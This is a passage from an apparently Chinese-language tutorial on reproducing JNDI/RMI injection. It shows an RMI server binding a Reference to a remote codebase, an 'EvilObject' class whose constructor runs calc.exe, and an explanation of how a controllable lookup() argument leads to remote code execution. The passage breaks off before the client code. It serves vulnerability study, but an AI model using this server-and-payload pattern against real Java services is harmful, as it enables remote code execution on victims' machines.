 服务端：

```java
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import javax.naming.Reference;
import com.sun.jndi.rmi.registry.ReferenceWrapper;
public class Server {

    public static void main(String args[]) throws Exception {
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference refObj = new Reference("EvilObject", "EvilObject", "http://127.0.0.1:8080/");
        ReferenceWrapper refObjWrapper = new ReferenceWrapper(refObj);
        System.out.println("Binding 'refObjWrapper' to 'rmi://127.0.0.1:1099/refObj'");
        registry.bind("refObj", refObjWrapper);
    }

}
```

恶意类(弹计算机)：

```java
public class EvilObject {
    public EvilObject() throws Exception {
        Runtime rt = Runtime.getRuntime();
        String[] commands = {"cmd", "/C", "calc.exe"};
        Process pc = rt.exec(commands);
        pc.waitFor();
    }
}
```

为了防止漏洞复现过程中应用端实例化EvilObject对象时从CLASSPATH当前路径找到编译好的字节代码，而不去远端进行下载的情况发生，将Server和Client放在同一个文件夹，EvilObject放在另外的文件夹



在复现过程中，发现EvilObject并没有被远程加载，只能加载当前路径编译好的字节代码

![image-20230320190331836](https://raw.githubusercontent.com/todis21/image/main/202303201903952.png)

查找原因：

- 在jdk < jdk8u121 之前才能通过reference 加载远程class 



#### lookup参数注入

当JNDI客户端的lookup()函数的参数可控即URI可控时，根据JNDI协议动态转换的原理，攻击者可以传入恶意URI地址指向攻击者的RMI注册表服务，以使受害者客户端加载绑定在攻击者RMI注册表服务上的恶意类，从而实现远程代码执行

这个的思路和上面的是一样的



下面的客户端代码，这里假设lookup()参数是可控的，rmi://127.0.0.1:1099/Foo是用户输入的，
